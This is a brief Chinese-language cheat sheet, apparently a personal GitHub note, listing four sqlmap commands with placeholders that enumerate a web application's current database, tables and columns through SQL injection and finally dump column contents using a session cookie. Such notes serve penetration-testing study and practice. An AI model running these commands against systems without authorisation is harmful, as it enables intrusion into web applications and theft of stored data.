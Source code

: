 # sqlmap指令

1. 扫描数据库名，用于获取数据库的名称

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" --current-db
   ```

2. 扫描本数据库的表

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> --tables
   ```

3. 扫描数据库表的列

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> -T <table> --columns
   ```

4. 获取数据库表中列的信息

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> -T <table> -C <column1>,<column2>,... --dump
   ```

   